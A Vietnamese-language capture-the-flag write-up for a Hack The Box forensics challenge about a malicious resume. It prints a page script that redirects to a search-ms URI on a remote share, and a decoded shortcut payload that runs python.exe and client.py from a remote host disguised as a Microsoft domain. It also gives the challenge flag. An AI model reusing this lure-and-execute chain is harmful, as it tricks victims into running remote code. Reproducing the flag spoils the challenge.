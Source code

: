 # A new Hire

### Details:
The Royal Archives of Eldoria have recovered a mysterious document—an old resume once belonging to Lord Malakar before his fall from grace. At first glance, it appears to be an ordinary record of his achievements as a noble knight, but hidden within the text are secrets that reveal his descent into darkness.

### Solution:
Ví dụ Docker: `94.237.52.11:42286`

Ta có file `email.eml` nhưng có vẻ không quan trọng
Truy cập trang web, sau khi đợi loading nó sẽ hiện ra button `View Full Resume`. Ta thử `Ctrl-U` để xem bên trong có gì.
Ta thấy được một đoạn code Javascript:

```js
<script defer="defer">
    setTimeout(() => {
      document.getElementById('loading').style.display = 'none';
      document.getElementById('main-content').style.display = 'flex';
    }, 5000);

    function getResume() {
      window.location.href=`search:displayname=Downloads&subquery=\\\\${window.location.hostname}@${window.location.port}\\3fe1690d955e8fd2a0b282501570e1f4\\resumes\\`;
    }
</script>
```

Function `getResume()`, thực hiện nhiệm vụ điều hướng browser tới URL chỉ định. Ta sẽ thử run nó trên Console (hoặc đơn giản là click vào nút `View Full Resume`)

![image](assets/1.png)

Nó sẽ điều hướng ta vào Windows Explorer

![image](assets/2.png)

![image](assets/3.png)

Ta có link trên Explorer:

`search-ms:displayname=Downloads&subquery=%5C%5C94.237.52.11@42286%5C3fe1690d955e8fd2a0b282501570e1f4%5Cresumes%5C`

Nếu decode ta có 

`search-ms:displayname=Downloads&subquery=\\94.237.52.11@42286\3fe1690d955e8fd2a0b282501570e1f4\resumes\`

Về cơ bản Windows Explorer tìm kiếm tệp trong thư mục `resumes\` nằm trên máy chủ `94.237.52.11` qua cổng `42286`. Ta có được file `Resume.pdf .lnk`, nó là 1 shortcut của 1 application, tiến hành GET thông tin trong đó:

![image](assets/4.png)

Ta được 1 đoạn Base64, tiến hành decode ta được thông tin (Base64, Remove Null Bytes):
```
[System.Diagnostics.Process]::Start('msedge', 'http://storage.microsoftcloudservices.com:57426/3fe1690d955e8fd2a0b282501570e1f4/resumesS/resume_official.pdf');
\\storage.microsoftcloudservices.com@57426\3fe1690d955e8fd2a0b282501570e1f4\python312\python.exe \\storage.microsoftcloudservices.com@57426\3fe1690d955e8fd2a0b282501570e1f4\configs\client.py
```
Ta được 3 link mới, ta sẽ biết được mình phải request lấy file về phân tích. (Thay đổi host thành địa chỉ Docker)
```note
Ví dụ với link: \\94.237.52.11@42286\3fe1690d955e8fd2a0b282501570e1f4\resumesS\
Encode URL để nhập vào Explorer: %5C%5C94.237.52.11@42286%5C3fe1690d955e8fd2a0b282501570e1f4%5CresumesS%5C
Paste URL mới vào phần subquery để truy cập.
```

Trong file `client.py` có một đoạn đã bị encode Base64
`
SFRCezRQVF8yOF80bmRfbTFjcjBzMGZ0X3MzNHJjaD0xbjF0MTRsXzRjYzNzISF9Cg==
`

Ta có được flag:

`HTB{4PT_28_4nd_m1cr0s0ft_s34rch=1n1t14l_4cc3s!!}`







